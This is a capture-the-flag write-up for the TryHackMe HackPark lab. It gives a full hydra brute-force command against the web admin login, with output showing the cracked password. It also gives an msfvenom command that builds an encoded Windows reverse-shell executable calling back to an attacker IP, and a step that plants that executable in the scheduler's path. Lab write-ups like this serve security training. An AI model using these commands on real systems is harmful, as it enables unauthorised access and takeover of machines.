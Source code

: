 ```yaml
---
layout : post 
title: HackPark
image : Hackpark.png
date: 2021-04-22 01:43 EST

tags: [Hydra websiteBruteforce , Process Exe Path Override]
---
```


# Nmap 
```
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack
3389/tcp open  ms-wbt-server syn-ack
```

# Exploitation 

Website admin bruteforce with hydra 

![]({{site.baseurl}}/img/tryhackme/hackpark/brut.png)

> it important to menction the error message 

![]({{site.baseurl}}/img/tryhackme/hackpark/failed.png)

```

hydra -l admin -P ~/rockyou.txt 10.10.86.83 http-post-form "/Account/login.aspx:__VIEWSTATE=jDoxXDrjvwtV4W%2B7cVh5zoKQkVZ9t%2FSNm3lRERD1airgV0UCIi2gSv7suGa%2F3Iv83L%2FnjMaEOUn%2B2SIg2B9qN7mf8%2FsEYBogwO0DjK07Mhvyihm5JDZV%2F%2F0Pp7wVtFNrijWXcN1PN4SApDMVAxQ%2BaNzwlKp0X0OM1PgyxpErgCMKK%2FaJLcS1woFajwAkMESCiaprqCg5R4Cig2KfjeWLPeC7ogZbXZNaJAEsJ%2BoQpwPxY0dxJsFtb2GxY9DhOyy3oPfWEEooFSzQ2ZSivOMA0EyvEYWNawgOalNHYnl3W%2FcFzosVCdU3E7qAB0vUCUpCKnY9A4i8uP3R87ahWdnf%2FGf52WtJT%2FTbpD0OZGWP%2BJrNmmS2&__EVENTVALIDATION=lNBF4usv%2B%2FRnlgoelQtKNrfqbZFS6GDvkUVwGD7jcg4M7jTX2h%2FDZZdlNM4ABS1t5eE339zVkw3Od4fZvs%2FVXUbMilHQmNSLdRGgG0TuFNrCgdomrs60cFVONFd78RZ%2Bh7cI1BNZAj6impwSNIn%2B43eohYXPf44sFcFQDZFn2Qzc723a&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:login Failed"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-22 04:39:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
```

**here it started attacking** 

```
[DATA] attacking http-post-form://10.10.86.83:80/Account/login.aspx:__VIEWSTATE=jDoxXDrjvwtV4W%2B7cVh5zoKQkVZ9t%2FSNm3lRERD1airgV0UCIi2gSv7suGa%2F3Iv83L%2FnjMaEOUn%2B2SIg2B9qN7mf8%2FsEYBogwO0DjK07Mhvyihm5JDZV%2F%2F0Pp7wVtFNrijWXcN1PN4SApDMVAxQ%2BaNzwlKp0X0OM1PgyxpErgCMKK%2FaJLcS1woFajwAkMESCiaprqCg5R4Cig2KfjeWLPeC7ogZbXZNaJAEsJ%2BoQpwPxY0dxJsFtb2GxY9DhOyy3oPfWEEooFSzQ2ZSivOMA0EyvEYWNawgOalNHYnl3W%2FcFzosVCdU3E7qAB0vUCUpCKnY9A4i8uP3R87ahWdnf%2FGf52WtJT%2FTbpD0OZGWP%2BJrNmmS2&__EVENTVALIDATION=lNBF4usv%2B%2FRnlgoelQtKNrfqbZFS6GDvkUVwGD7jcg4M7jTX2h%2FDZZdlNM4ABS1t5eE339zVkw3Od4fZvs%2FVXUbMilHQmNSLdRGgG0TuFNrCgdomrs60cFVONFd78RZ%2Bh7cI1BNZAj6impwSNIn%2B43eohYXPf44sFcFQDZFn2Qzc723a&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:login Failed
[STATUS] 1144.00 tries/min, 1144 tries in 00:01h, 14343255 to do in 208:58h, 16 active
[80][http-post-form] host: 10.10.86.83   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-22 04:40:57

```
`admin:1qaz2wsx`

# Exploitation

![]({{site.baseurl}}/img/tryhackme/hackpark/fileupload.png)

after uploading the file the LFI gave us ReverseShell

![]({{site.baseurl}}/img/tryhackme/hackpark/lfi.png)



# privEsc 
OverRiding the windows Sheduler Process Path

creating the reverseShell

```
 msfvenom -p windows/shell_reverse_tcp LHOST=10.9.202.83 LPORT=3333 -e x86/shikata_ga_nai -f exe -o Message.exe
```
![]({{site.baseurl}}/img/tryhackme/hackpark/got.png)
```
C:\Program Files (x86)\SystemScheduler>move c:\Windows\Temp\Message.exe ./
```

